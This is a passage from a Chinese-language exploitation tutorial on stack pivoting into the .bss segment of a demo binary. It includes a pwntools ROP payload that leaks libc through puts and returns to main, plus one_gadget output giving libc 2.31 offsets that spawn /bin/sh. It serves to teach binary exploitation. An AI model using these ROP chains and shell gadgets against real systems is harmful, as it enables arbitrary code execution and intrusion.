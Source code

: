 ```bash
main=0x4011BD
rdi=0x401273
puts_got=0x404018 
puts_addr=0x401060
payload3 = p64(bss+0x40)+p64(rdi)+p64(puts_got)+p64(puts_addr)+p64(main)
io.send(payload3)
```

[![](assets/1705982215-f6be2959ee54231e3976716d6eb190d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121162420-79cdfd90-b836-1.png)

接下来再用一次上面的三个步骤即可在最后的 payload3 进行控制参数任意函数（伪）执行了

### 有一些注意的点：

当栈迁移到 bss 段后，有一些函数加载的临时变量可能无法正常加载到新的栈上，所以在返回到主函数运行时报错就需要重新寻找适合的，能够进行再次溢出的位置作为返回地址

这类函数包括但不限于：system，execve，printf，seccomp 等等

所以在以上的返回中我们如果想返回一个 shell，就需要利用工具 `one_gadget`（后面再开一章讲解工具安装和使用）查找 libc 中的能直接调用系统调用 execve("/bin/sh",0,0) 的 gadget 偏移

上面 demo 程序在 `libc2.31ubuntu9.9` 的 one\_gadget 如下

```bash
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```
